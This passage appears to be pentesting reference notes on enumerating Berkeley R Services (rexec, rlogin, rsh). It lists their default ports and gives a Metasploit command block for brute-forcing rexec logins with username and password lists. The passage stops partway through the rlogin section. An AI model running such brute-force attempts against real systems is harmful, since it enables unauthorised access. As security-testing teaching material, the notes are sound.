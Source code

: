# Berkeley R Services Enumeration

## Details

Berkeley R Services allow users of one Unix operating system to both login and issue commands to another.  The default ports are:

**Ports**

* **rexecd**: 512

* **rlogind/rwhod**: 513

* **rshd**: 514

To enumerate R Services within Kali linux the rsh-client package must be installed:

`sudo apt install rsh-client`

## Rexec Daemon

The rexec daemon, which by default runs on port 512, allows a user to run shell commands on a remote machine.  To authenticate, a user is required to enter a username and password.  

The metasploit module `auxiliary/scanner/rservices/rexec_login` can be used to bruteforce username/password combinations, in order to gain access to the target system:

```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <ip address>
set PASS_FILE /path/to/passwordList.txt
set USER_FILE /path/to/userList.txt
run
```

## Rlogin/Rwho Daemon

The rlogin daemon, which by default operates on port 513, allows a user to login to a remote unix system. Access via 

